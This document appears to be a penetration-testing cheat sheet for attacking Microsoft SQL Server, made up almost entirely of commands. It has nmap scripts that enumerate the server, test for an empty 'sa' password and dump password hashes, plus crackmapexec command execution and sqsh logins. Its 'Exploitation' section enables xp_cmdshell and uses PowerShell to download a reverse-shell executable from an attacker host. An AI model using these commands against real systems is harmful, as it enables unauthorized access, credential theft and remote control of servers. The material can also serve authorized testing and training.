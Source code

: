     nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <ip>
    
    # Enumerate MSSQL database information and configurations
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=<username>,mssql.password=<password>,mssql.instance-name=<instance_name> -sV -p 1433 <target_ip>
    

**Crackmapexec**

    # Check MSSQL service and execute command
    crackmapexec mssql -d <domain> -u <username> -p <password> -x "whoami" <target_ip>
    
    # Query databases and list them
    crackmapexec mssql -d <domain> -u <username> -p <password> -x "SELECT name FROM master.dbo.sysdatabases;" <target_ip>
    

**Logging In**

    # Connect to MSSQL using sqsh (Linux)
    sqsh -S <target_ip> -U <username> -P <password>
    
    # Connect to MSSQL using sqsh (Windows)
    sqsh -S <target_ip> -U <domain>\\<username> -P <password> -D <database>
    

**Exploitation**

    -- Enable advanced options and xp_cmdshell for command execution
    EXEC SP_CONFIGURE &#39;show advanced options&#39;, 1;
    RECONFIGURE;
    GO
    
    EXEC SP_CONFIGURE &#39;xp_cmdshell&#39;, 1;
    RECONFIGURE;
    GO
    
    -- Test xp_cmdshell to execute system commands
    EXEC xp_cmdshell &#39;whoami&#39;;
    GO
    
    -- Download and execute a reverse shell
    EXEC xp_cmdshell &#39;powershell "Invoke-WebRequest -Uri http://<attacker_ip>:<port>/reverse.exe -OutFile c:\\Users\\Public\\reverse.exe"&#39;;
    GO
    